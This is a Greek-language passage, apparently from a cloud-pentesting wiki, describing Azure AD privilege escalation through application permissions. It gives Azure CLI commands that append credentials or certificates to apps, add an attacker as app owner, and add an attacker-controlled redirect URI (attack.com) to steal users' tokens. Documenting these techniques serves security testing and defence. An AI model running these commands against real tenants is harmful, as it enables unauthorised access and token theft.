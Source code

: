 Αυτό επιτρέπει σε έναν επιτιθέμενο να **προσθέσει διαπιστευτήρια** (κωδικούς πρόσβασης ή πιστοποιητικά) σε υπάρχουσες εφαρμογές. Εάν η εφαρμογή έχει προνομιακές άδειες, ο επιτιθέμενος μπορεί να αυθεντικοποιηθεί ως αυτή η εφαρμογή και να αποκτήσει αυτά τα προνόμια.
```bash
# Generate a new password without overwritting old ones
az ad app credential reset --id <appId> --append
# Generate a new certificate without overwritting old ones
az ad app credential reset --id <appId> --create-cert
```
### `microsoft.directory/applications.myOrganization/credentials/update`

Αυτό επιτρέπει τις ίδιες ενέργειες όπως το `applications/credentials/update`, αλλά περιορισμένο σε εφαρμογές μίας μόνο διεύθυνσης.
```bash
az ad app credential reset --id <appId> --append
```
### `microsoft.directory/applications/owners/update`

Με την προσθήκη του εαυτού τους ως ιδιοκτήτη, ένας επιτιθέμενος μπορεί να χειριστεί την εφαρμογή, συμπεριλαμβανομένων των διαπιστευτηρίων και των δικαιωμάτων.
```bash
az ad app owner add --id <AppId> --owner-object-id <UserId>
az ad app credential reset --id <appId> --append

# You can check the owners with
az ad app owner list --id <appId>
```
### `microsoft.directory/applications/allProperties/update`

Ένας επιτιθέμενος μπορεί να προσθέσει μια διεύθυνση URI ανακατεύθυνσης σε εφαρμογές που χρησιμοποιούνται από τους χρήστες του ενοικιαστή και στη συνέχεια να μοιραστεί μαζί τους διευθύνσεις URL σύνδεσης που χρησιμοποιούν τη νέα διεύθυνση ανακατεύθυνσης προκειμένου να κλέψει τα διακριτικά τους. Σημειώστε ότι αν ο χρήστης ήταν ήδη συνδεδεμένος στην εφαρμογή, η αυθεντικοποίηση θα είναι αυτόματη χωρίς να χρειάζεται ο χρήστης να αποδεχτεί οτιδήποτε.

Σημειώστε ότι είναι επίσης δυνατό να αλλάξετε τις άδειες που ζητά η εφαρμογή προκειμένου να αποκτήσετε περισσότερες άδειες, αλλά σε αυτή την περίπτωση ο χρήστης θα χρειαστεί να αποδεχτεί ξανά την προτροπή που ζητά όλες τις άδειες.

{% code overflow="wrap" %}
```bash
# Get current redirect uris
az ad app show --id ea693289-78f3-40c6-b775-feabd8bef32f --query "web.redirectUris"
# Add a new redirect URI (make sure to keep the configured ones)
az ad app update --id <app-id> --web-redirect-uris "https://original.com/callback https://attack.com/callback"
```
{% endcode %}

## Service Principals

### `microsoft.directory/servicePrincipals/credentials/update`
